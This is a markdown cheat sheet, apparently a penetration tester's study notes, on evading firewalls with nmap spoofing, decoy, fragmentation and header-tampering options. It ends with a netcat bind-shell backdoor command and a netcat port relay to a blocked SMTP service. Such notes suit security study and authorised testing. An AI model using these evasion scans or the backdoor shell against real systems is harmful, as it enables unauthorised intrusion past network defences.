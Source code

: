 # Firewall Evasion

## Evasion via controlling the soource mac/ip/port

### Tool: nmap

### Nmap can spoof:

### 1) Decoy(s)

### 2) Proxy

### 3) Spoof MAC address

### 4) Spoofed Source IP Address

### 5) Fixed Source port number

## DECOY

### Example:

#### 

    nmap -sS -Pn -D RANDOM,RANDOM,OUR_IP -F TARGET_IP

### TIP: You can explicitly specify the random IPs in your scan

## PROXY

### Example:

#### 

    nmap -sS -Pn --proxies PROXY_URL -F TARGET_IP

### TIP: You can chain proxies using a comma separated list

## SPOOFED MAC ADDRESS

#### 

    nmap option: --spoof-mac MAC_ADDRESS

### MAC Spoofing works only if your system is on the same network segment as the target host

## SPOOFED IP ADDRESS

#### 

    nmap option: -S IP_ADDRESS

### TIP: IP Spoofing can be useful if your system is on the same subnetwork as the target host. Also you can use this technique when you control a system that has a particular IP address

## FIXED SOURCE PORT NUMBER

### Example:

#### 

    nmap -sS -Pn -g 8080 -F TARGET_IP

### TIP: Use port number like 53,80,8080,etc

# EVASION VIA FORCING FRAGMENTATION, MAXIMUM TRANSMISSION UNIT (MTU) AND DATA LENGTH 

## Fragmentation

### Tool: nmap

### Examples:

### -f = 8 bytes

### -ff = 16 bytes

#### 

    nmap -sS -Pn -ff -F TARGET_IP

## Maximum Transmission Unit MTU

#### nmap option: --mtu NUM

### TIP: Number must always be multiple of 8

## Packets with specific length

### nmap option: --data-length VALUE

#### 

    nmap -sS -Pn --data-length NUM -F TARGET_IP

### TIP: Multiple of 8

# EVASION VIA MODIFYING HEADER FIELDS

## Set Time To Live (TTL)

### option: --ttl NUM

#### 

    nmap -sS -Pn --ttl NUM -F TARGET_IP

## Set IP options

### option: --ip-options HEX_STRING

### 1 byte in hex: \xHH

### Other options:

### 1) R = to record route

### 2) T = to record timestamp

### 3) U = record route and record timestamp

### 4) L = Loose routing (Source)

### 5) S = Strict routing (Source)

## Wrong checksum

### option: --badsum

#### 

    nmap -sS -Pn --badsum -F TARGET_IP

# EVASION USING NON-STANDARD PORTS

### Backdoor example: 

    nc -lvnp PORT -e /bin/bash

### TIP: run as root to use ports below 1024 with netcat

# PORT TUNNELING/PORT MAPPING/PORT FORWARDING

### Example: 

    nc -lvnp 443 -c "nc TARGET_IP 25"

#### Access the SMTP server via a port that is not blocked by the firewall
